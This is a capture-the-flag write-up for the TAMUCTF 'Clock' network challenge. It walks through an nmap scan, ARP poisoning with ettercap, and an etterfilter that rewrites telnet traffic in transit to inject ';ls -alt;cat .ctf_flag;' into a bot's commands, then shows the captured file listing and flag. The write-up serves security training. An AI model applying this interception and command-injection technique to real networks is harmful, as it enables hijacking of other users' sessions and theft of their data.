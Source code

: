 # TAMUCTF Clock (Network/Pentest) Write-Up

### Jump straight in
``TeXt
	nmap 172.30.0.0/28

	Starting Nmap 7.70 ( https://nmap.org ) at 2019-03-03 21:24 CST
	Nmap scan report for 172.30.0.2
	Host is up (0.087s latency).
	Not shown: 999 closed ports
	PORT   STATE SERVICE
	23/tcp open  telnet
	MAC Address: 02:42:16:55:5A:3B (Unknown)

	Nmap scan report for 172.30.0.3
	Host is up (0.087s latency).
	All 1000 scanned ports on 172.30.0.3 are closed
	MAC Address: 02:42:CF:07:5C:FF (Unknown)

	Nmap scan report for 172.30.0.14
	Host is up (0.0000060s latency).
	All 1000 scanned ports on 172.30.0.14 are closed

	Nmap done: 16 IP addresses (3 hosts up) scanned in 7.01 seconds
	``

2. We telnet open and we also see 2 hosts online. `172.30.0.2 and 172.30.0.3`. Taking knowledge from the previous challenges we will now initiate an ARP spoofing ettercap.

	**Arp Spoofing**

	Lets crack open Ettercap

		ettercap -G 				Opens etter in graphical mode

	First we gotta tell ettercap what it’s doing open.

		Sniff > Unified Sniffing > tap0 > OK
		
		This is telling ettercap to sniff the unified network tap0 which is going to set out interface to the VPN we connected to for the challenges

	Next we need to tell ettercap where the hosts are. Or actually let it find them itself. 

		Hosts > Scan for hosts

	Done. It now knows who’s online

	Now we need to actually specify the mode of the ettercap man in the middle attack. 

		Mitm > Arp Poisioning > Sniff remote connections (leave Only poision one way OFF) > OK
		
		This is setting the Mitm mode to ARP spoofing.  


3. Now we shall slide on over to wireshark and view the traffic we are stealing. 

	We some interesting things. One of with is the telnet login, but funny enough we will never directly telnet to this box. 
	We also can see that there is a challenge thingy and that the box `172.30.0.3` seems to solve it automatically. My first thought was that we can get `172.30.0.3` to solve the challenge we get from our login but that was a bad idea. Finally discovered etterfilters with a little nudge and started to write one that would drop the letter `t` from the command it’s running `date` and inject `;ls -la;` with the semi-colons there to terminate the commands before and after

	Important Note: We chose to drop the letter t from date because it's the only letter in that command that is not applicable in hex. If we had chosen any other letter we would've corrupted the challenge and thus gotten an incorrect response and not allowed access into the box. 

4. As for the actual etterfilter…

		if (ip.dst == '172.30.0.2'){
			msg("Found packet. Now editing");
			replace("t", ";ls -alt;");
		}

	and now to run this we first need to compile. I named this script `clocketter` so my compile command was

		etterfilter clocketter

	at least for Kali Linux.

	Now we can venture on over to ettercap and give it the filter.

		Filters > Load a filter... > Select etterfilter.ef > OK

	You’ll know It’s working if you included a msg to tell you it’s working. Mine started dumping in `Found packet. Now editing` so I was hopeful I was about to see list of files. Wireshark dumped back…

		-bash: exi: command not found
		total 28
		-rw------- 1 alice alice 7888 Mar  4 03:34 .bash_history
		drwxr-xr-x 1 alice alice   41 Mar  3 20:36 .
		drwx------ 2 alice alice   34 Mar  3 20:36 .cache
		-rw------- 1 root  root    53 Feb 22 13:21 .naumotp_secret
		-rw-r--r-- 1 root  root    40 Feb 22 13:21 .ctf_flag
		drwxr-xr-x 1 root  root    19 Feb 22 13:21 ..
		-rw-r--r-- 1 alice alice  655 May 16  2017 .profile
		-rw-r--r-- 1 alice alice  220 Aug 31  2015 .bash_logout
		-rw-r--r-- 1 alice alice 3771 Aug 31  2015 .bashrc

	and thus I extended my etterfilter to be

		if (ip.dst == '172.30.0.2'){
			msg("Found packet. Now editing");
			replace("t", ";ls -alt;cat .ctf_flag;");
		}

	which dumped out

		-bash: exi: command not found
		total 28
		-rw------- 1 alice alice 7888 Mar  4 03:34 .bash_history
		drwxr-xr-x 1 alice alice   41 Mar  3 20:36 .
		drwx------ 2 alice alice   34 Mar  3 20:36 .cache
		-rw------- 1 root  root    53 Feb 22 13:21 .naumotp_secret
		-rw-r--r-- 1 root  root    40 Feb 22 13:21 .ctf_flag
		drwxr-xr-x 1 root  root    19 Feb 22 13:21 ..
		-rw-r--r-- 1 alice alice  655 May 16  2017 .profile
		-rw-r--r-- 1 alice alice  220 Aug 31  2015 .bash_logout
		-rw-r--r-- 1 alice alice 3771 Aug 31  2015 .bashrc
		gigem{a032b26061c96e00e2a0b9e991f11476}
		alice@f855819477fd:~$

	This was a relatively short challenge in the number of steps but figuring out etterfilters, finding this solution, and executing the hack was a long tedious process. 
